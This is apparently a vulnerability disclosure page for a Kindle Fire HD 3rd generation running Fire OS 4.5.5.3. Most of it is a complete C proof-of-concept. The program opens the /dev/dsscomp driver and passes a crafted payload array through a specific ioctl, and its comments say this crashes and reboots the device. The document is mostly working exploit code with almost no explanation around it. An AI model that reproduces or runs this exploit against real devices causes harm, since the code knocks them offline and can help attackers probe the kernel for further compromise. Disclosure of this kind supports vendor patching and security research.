 <languages  /> <translate>

漏洞影響
--------

</translate>

    Fire OS 4.5.5.3

POC
---

    /*
     * This is poc of Kindle Fire HD 3rd
     * A bug in the ioctl interface of device file /dev/dsscomp causes the system crash via IOCTL 1118064517.
     * Related buggy struct name is dsscomp_setup_dispc_data.
     * This Poc should run with permission to do ioctl on /dev/dsscomp.
     *
     */
    #include <stdio.h>
    #include <fcntl.h>
    #include <errno.h>
    #include <sys/ioctl.h>

    const static char *driver = "/dev/dsscomp";
    static command = 1118064517;

    int main(int argc, char **argv, char **env) {
        unsigned int payload[] = {
        0xffffffff,
        0x00000003,
        0x5d200040,
        0x79900008,
        0x8f5928bd,
        0x78b02422,
        0x00000000,
        0xffffffff,
        0xf4c50400,
        0x007fffff,
        0x8499f562,
        0xffff0400,
        0x001b131d,
        0x60818210,
        0x00000007,
        0xffffffff,
        0x00000000,
        0x9da9041c,
        0xcd980400,
        0x001f03f4,
        0x00000007,
        0x2a34003f,
        0x7c80d8f3,
        0x63102627,
        0xc73643a8,
        0xa28f0665,
        0x00000000,
        0x689e57b4,
        0x01ff0008,
        0x5e7324b1,
        0xae3b003f,
        0x0b174d86,
        0x00000400,
        0x21ffff37,
        0xceb367a4,
        0x00000040,
        0x00000001,
        0xec000f9e,
        0x00000001,
        0x000001ff,
        0x00000000,
        0x00000000,
        0x0000000f,
        0x0425c069,
        0x038cc3be,
        0x0000000f,
        0x00000080,
        0xe5790100,
        0x5b1bffff,
        0x0000d355,
        0x0000c685,
        0xa0070000,
        0x0010ffff,
        0x00a0ff00,
        0x00000001,
        0xff490700,
        0x0832ad03,
        0x00000006,
        0x00000002,
        0x00000001,
        0x81f871c0,
        0x738019cb,
        0xbf47ffff,
        0x00000040,
        0x00000001,
        0x7f190f33,
        0x00000001,
        0x8295769b,
        0x0000003f,
        0x869f2295,
        0xffffffff,
        0xd673914f,
        0x05055800,
        0xed69b7d5,
        0x00000000,
        0x0107ebbd,
        0xd214af8d,
        0xffff4a93,
        0x26450008,
        0x58df0000,
        0xd16db084,
        0x03ff30dd,
        0x00000001,
        0x209aff3b,
        0xe7850800,
        0x00000002,
        0x30da815c,
        0x426f5105,
        0x0de109d7,
        0x2c1a65fc,
        0xfcb3d75f,
        0x00000000,
        0x00000001,
        0x8066be5b,
        0x00000002,
        0xffffffff,
        0x5cf232ec,
        0x680d1469,
        0x00000001,
        0x00000020,
        0xffffffff,
        0x00000400,
        0xd1d12be8,
        0x02010200,
        0x01ffc16f,
        0xf6e237e6,
        0x007f0000,
        0x01ff08f8,
        0x000f00f9,
        0xbad07695,
        0x00000000,
        0xbaff0000,
        0x24040040,
        0x00000006,
        0x00000004,
        0x00000000,
        0xbc2e9242,
        0x009f5f08,
        0x00800000,
        0x00000000,
        0x00000001,
        0xff8800ff,
        0x00000001,
        0x00000000,
        0x000003f4,
        0x6faa8472,
        0x00000400,
        0xec857dd5,
        0x00000000,
        0x00000040,
        0xffffffff,
        0x3f004874,
        0x0000b77a,
        0xec9acb95,
        0xfacc0001,
        0xffff0001,
        0x0080ffff,
        0x3600ff03,
        0x00000001,
        0x8fff7d7f,
        0x6b87075a,
        0x00000000,
        0x41414141,
        0x41414141,
        0x41414141,
        0x41414141,
        0x001001ff,
        0x00000000,
        0x00000001,
        0xff1f0512,
        0x00000001,
        0x51e32167,
        0xc18c55cc,
        0x00000000,
        0xffffffff,
        0xb4aaf12b,
        0x86edfdbd,
        0x00000010,
        0x0000003f,
        0xabff7b00,
        0xffff9ea3,
        0xb28e0040,
        0x000fffff,
        0x458603f4,
        0xffff007f,
        0xa9030f02,
        0x00000001,
        0x002cffff,
        0x9e00cdff,
        0x00000004,
        0x41414141,
        0x41414141,
        0x41414141,
        0x41414141 };

            int fd = 0;
            fd = open(driver, O_RDWR);
            if (fd < 0) {
                printf("Failed to open %s, with errno %d\n", driver, errno);
                system("echo 1 > /data/local/tmp/log");
                return -1;
            }

            printf("Try open %s with command 0x%x.\n", driver, command);
            printf("System will crash and reboot.\n");
            if(ioctl(fd, command, &payload) < 0) {
                printf("Allocation of structs failed, %d\n", errno);
                system("echo 2 > /data/local/tmp/log");
                return -1;
            }
            close(fd);
            return 0;
    }